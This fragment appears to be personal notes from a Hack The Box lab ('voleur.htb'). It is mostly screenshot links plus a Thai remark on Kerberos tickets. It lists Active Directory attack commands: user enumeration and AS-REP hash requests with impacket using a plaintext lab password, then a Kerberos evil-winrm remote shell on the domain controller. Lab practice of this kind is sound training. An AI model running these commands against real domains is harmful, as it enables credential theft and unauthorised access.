impacket-GetADUsers -all -dc-ip 10.10.11.76 voleur.htb/ryan.naylor:HollowOct31Nyt -dc-host dc.voleur.htb -k



impacket-GetNPUsers voleur.htb/ryan.naylor:HollowOct31Nyt -usersfile users.txt -dc-ip 10.10.11.76 -request -k

















มันไม่ -k แล้วไปอ่านใน klist จะอ่านจาก exportเท่านั้น









evil-winrm -i dc.voleur.htb -r voleur.htb

-r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }


